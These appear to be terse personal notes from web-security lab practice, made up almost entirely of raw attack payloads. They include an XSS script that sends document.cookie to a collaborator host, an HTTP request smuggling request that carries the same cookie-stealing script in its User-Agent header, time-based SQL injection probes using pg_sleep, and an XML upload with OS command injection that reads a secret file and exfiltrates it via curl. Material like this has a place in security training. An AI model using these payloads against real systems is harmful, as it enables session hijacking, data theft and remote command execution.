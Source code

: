 # Extras  


## 1 - 1  

```
a"/><script>document.location='http://COLABORATOR.com/?abc='+document.cookie;</script>
```

>HTTP request smuggling + XSS + useragent blog comment 

```
POST / HTTP/1.1
Host: TARGET.net
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: Ceop4Tck
Content-Length: 795
Connection: keep-alive

1a
mug9q=x&find=fuzz2&8p7m4=x
0

GET /post?postId=3 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?app='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES

x=1
```

## 1 - 2  

>SQL advance search  injection - fail  

>***not***

```
GET /search_advanced?find='&sortBy=&writer= HTTP/2
```  

```
GET /search_advanced?find='+--+comment&sortBy=DATE&writer= HTTP/2
```

```
GET /search_advanced?find=';SELECT CASE WHEN (1=1) THEN pg_sleep(20) ELSE pg_sleep(0) END--&sortBy=DATE&writer= HTTP/2
```

## 2 - 3  

>Unknown ????  

-----

## 2 - 1  

>password refresh reset  

```
/refreshpassword?temp-forgot-password-token=YESYESYESYESYESYESEYSE
```  

## 2 - 2  

>changeEmail js  

```			   
HTTP/2 302 Found
Location: /myaccount
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 173

{
  "username": "carlos",
  "email": "attacker@exploit.net",
  "apikey": "YESYESYESYESYESYESYESYES",
  "roleid": 47
}
```

## 2 - 3  

>XML + OS Command injection  

```
------WebKitFormBoundary 

Content-Disposition: form-data; name="user-import-file"; filename="exam77.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>Jacky22</username>
        <email>james22@exploit.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
    </user>
</users>

------WebKitFormBoundary
```

>solution  

